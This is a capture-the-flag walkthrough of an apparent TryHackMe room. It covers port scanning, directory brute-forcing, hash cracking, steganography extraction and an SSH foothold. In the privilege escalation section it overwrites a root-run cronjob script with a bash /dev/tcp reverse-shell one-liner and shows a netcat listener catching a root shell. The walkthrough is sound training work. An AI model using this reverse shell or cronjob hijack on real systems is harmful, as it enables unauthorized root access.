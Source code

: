 # recon
nmap show us that there are 3 open port:
- 80 ngnix server
- 6498 ssh
- 65524 apache server

## port 80 ngnix 
I use `gobuster` to brute forcing web directory 
```console
$ gobuster dir -u http://$IP/ -w /usr/share/SecLists/Discovery/Web-Content/big.txt -x .php,.txt,.html -t 54
```
here is what I found:
- /h______ (Status: 301)
  - /w______
- /index.html (Status: 200)
- /robots.txt (Status: 200)
The first flag is in one of the directory. Note that the flag is encoded. encode it and summit ur flag.
## port 65524 apache
Same as port 80, use `gobuster` for directory brute forcing. In the meantime I was waiting for result from go buster. I looks around and find the 3rd flag. here is what I found with gobuster.
- /index.html (Status: 200)
- /robots.txt (Status: 200)
this is odd. but let go and check what we have. I found a encoded string hidden in `/index.html`. decode it and it will give you a hidden directory call `/n0th1__________`.

moreover, in robots.txt you will find a weird string:
```
User-Agent:a18672860d0510e5ab6699730763b250
```
I use hash analyzer to check which hash type is that. then using `hashcat` to crack it: let move back to `/n0th1__________` directory.

here you will find
```html
<img src="binarycodepixabay.jpg" width="140px" height="140px"/>
<p>940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81</p>
```
a picture which I guess that this picture might hiding something from us (steganography). I downloaded it and used `binwalk` to analyze the picture... didnt find anything. I then use `hexeditor` to analyze the picture. I was rigth about it, the picture include a hidden file. so I use `stegcracker` to crack it.

at this moment:
- hashcat is running
- stegcracker is running
- my laptop is screaming and burning...

back to `/n0th1__________`, this a some werid strings there too. THM give us a HINT that the string is a GOST Hash. use ur favorite search engines and find online hash cracking website. Boom! I got a password!!. 

**hint**: <details>I used this [site](https://md5hashing.net/hash/gost/)) to crack it</details>


I then stop my stegcracker. and run `steghide` to extrack a hidden file:
```console
kali@kali:~/THM$ steghide extract -sf index.jpeg 
Enter passphrase: 
wrote extracted data to "secrettext.txt".
```
At this point, we still missing flag 2. Base on what we found, the string that we found in *robots.txt* (User-Agent) should give us the flag. Since *rockyou.txt* contains only password, not thing like flag{soemthing}. Which is why my `hashcat` could not crack it. 


The solution was to find online hash cracking website. to gain 2nd flag. 
**hint:** 
<details> same site as GOST hash cracker.</details>

Back to the file we extracted from steghide
```console
kali@kali:~/THM$ cat secrettext.txt 
username:b____
password:
01101001 <and more>
```
note that password is in binary, decode it! now let ssh and get foothold on the victim machine.
# foot hold
let get user flag!!!
```console
boring@kral4-PC:~$ ls
user.txt
boring@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
<flaghere>
```
The hint said *User Flag But It Seems Wrong Like It`s Rotated Or Something*.... **Rotated**... Find out what it mean:
**hint:**
<details>ROT cipher</details>

# root
I tried to `sudo -l` but we dont have premission to do so. then I remember that it said in the room detail that *escalate your privileges through a vulnerable cronjob.* so lets do it!
```console
boring@kral4-PC:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```
if you do not know what cronjob is, pls look it up. In short each 1 min a hidden bash script call `.mysecretcronjob.sh` is executed by root. the script is located at `/var/www/`. lucky the script is own by our current user which mean we have a permission to read and write the script.

The plan is modify the script to a reverse shell to gain root access. add this to the script
```sh
bash -i >& /dev/tcp/<kali ip>/6969 0>&1
```
now on your kali. open netcat and listen/wait for our reverse shell to be execute by cronjob as root:
```console
kali@kali:~$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.11.14.220] from (UNKNOWN) [10.10.111.241] 56080
bash: cannot set terminal process group (1741): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www#
```
now go grab root flag
**Hint**
<details>hidden...</details>
